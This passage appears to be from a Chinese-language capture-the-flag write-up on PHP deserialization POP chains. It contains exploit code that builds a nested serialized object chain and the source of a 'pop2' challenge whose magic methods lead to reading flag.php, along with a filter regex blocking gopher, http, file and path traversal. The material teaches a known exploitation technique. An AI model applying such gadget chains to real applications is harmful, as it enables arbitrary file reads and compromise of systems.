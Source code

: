 ```php

$func = new func();
$func->mod1 = $string1;

$funct = new funct();
$funct->mod1 = $func;

$call = new Call();
$call->mod1 = $funct;

$get = new Get();
$get->mod1 = $call;

$start = new start();
$start->mod1 = $get;

echo serialize($start);

?>
```

## pop2

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class Read{
    public $var;
    public function file_get($value){
        $text = base64_encode(file_get_contents($value));
        return $text;
    }
    public function __invoke(){
        $content = $this->file_get($this->var); //该对象的var变量需要是flag.php 然后其内容被base64编码输出
        echo $content;
    }
}
class Show{
    public $source;
    public $str;
    public function __construct($file = 'index.php'){
        echo 'here';
        $this->source = $file;
        echo $this->source.'  Welcome'."<br>";
    }
    public function __toString(){
        return $this->str['str']->source;
    }
    public function _show(){
        if(preg_match('/gopher|http|ftp|https|dict|\.\.|flag|file/i',$this->source)){
            die('hacker');
        }else{
            highlight_file($this->source);
        }
    }
    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i",$this->source)){
            // preg_match的第二个参数本该是一个字符串 如果是对象的话 就会触发其__toString()
            echo 'hacker';
            $this->source = 'index.php';
        }
    }
```